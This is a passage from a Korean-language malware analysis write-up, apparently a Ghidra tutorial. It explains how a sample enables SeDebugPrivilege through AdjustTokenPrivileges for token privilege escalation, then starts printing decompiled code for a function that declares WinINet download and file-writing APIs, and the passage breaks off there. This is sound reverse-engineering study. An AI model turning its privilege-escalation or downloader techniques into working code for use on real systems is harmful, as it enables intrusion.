토큰을 통해 권한 상승을 하는 방법에 대해서 나와 있습니다. 밑으로 내려보면?

![](ghidra_part5/Untitled%205.png)

`SeDebugPrivilege`가 존재합니다.

![](ghidra_part5/Untitled%206.png)

`FUN_00401a9e`를 확인해보면 `AdjustTokenPrivileges`를 통해 액세스 토큰에 대한 권한을 설정하는 걸 확인할 수 있습니다. 그러면 `FUN_00401b91` 부분은 Token Privilege escalation을 하는 부분이네요. 그럼 다음 분석해야 할 부분인 `FUN_00401570`을 확인해볼까요?

```cpp
undefined4 FUN_00401570(void)

{
  char cVar1;
  bool bVar2;
  undefined4 uVar3;
  HMODULE hModule;
  WINBOOL WVar4;
  size_t temp_path_len;
  undefined4 *puVar5;
  uint uVar6;
  char *pcVar7;
  DWORD local_60;
  DWORD local_5c;
  DWORD local_58;
  uint local_54;
  InternetCloseHandle *InternetCloseHandle_addr;
  WriteFile *WriteFile_addr;
  InternetReadFile *InternetReadFile_addr;
  HANDLE local_44;
  CreateFileW *CreateFileW_addr;
  char *temp_path;
  void *local_38;
  WINBOOL local_34;
  HttpSendRequestA *HttpSendRequestA_addr;
  InternetSetOptionW *InternetSetOptionW_addr;
  InternetQueryOptionW *InternetQueryOptionW_addr;
  HINTERNET local_24;
  HttpOpenRequestW *HttpOpenRequestW_addr;
  HINTERNET local_1c;
```